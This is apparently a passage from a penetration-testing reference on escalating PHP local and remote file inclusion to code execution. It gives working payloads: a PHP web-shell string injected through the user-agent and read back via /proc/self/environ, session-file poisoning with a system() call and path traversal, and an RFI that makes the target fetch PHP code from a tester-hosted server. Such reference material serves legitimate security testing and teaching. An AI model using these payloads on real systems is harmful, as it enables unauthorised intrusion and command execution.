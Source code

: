 ```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ

```

#### 🛠️ /proc/\*/fd

### 🛠️ LFI to RCE (via PHP session)

When a web server wants to handle sessions, it can use PHP session cookies (PHPSESSID).

#### Reconnaissance

1.  Finding where the sessions are stored.

    Examples:

    * `/var/lib/php5/sess_[PHPSESSID]`
    * `/var/lib/php/sessions/sess_[PHPSESSID]`
2.  Displaying a PHPSESSID to see if any parameter is reflected inside.

    Example:

    * The user name for the session (from a parameter called `user`)

#### RCE

```bash
login=1&user=<?php system("id");?>&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_$PHPSESSID
```

### RFI to RCE

The tester can create a `phpinfo.php` containing `<?php phpinfo(); ?>` and use a simple HTTP server so that the target application can fetch it. When exploiting the RFI to include the `phpinfo.php` file, the tester server will send the plaintext PHP code to the target server that should execute the code and show the `phpinfo` in the response.

{% hint style="warning" %}
If the tester server used to host the `phpinfo.php` file can interpret PHP, it will. The tester will not achieve code execution on the target server but on his own instead. A simple HTTP server will do.
{% endhint %}

```bash
# Create phpinfo.php
echo '<?php phpinfo(); ?>' > phpinfo.php

# Start a web server
python3 -m http.server 80

# Exploit the RFI to fetch the remote phpinfo.php file
curl '$URL/?parameter=http://tester.server/phpinfo.php'
```
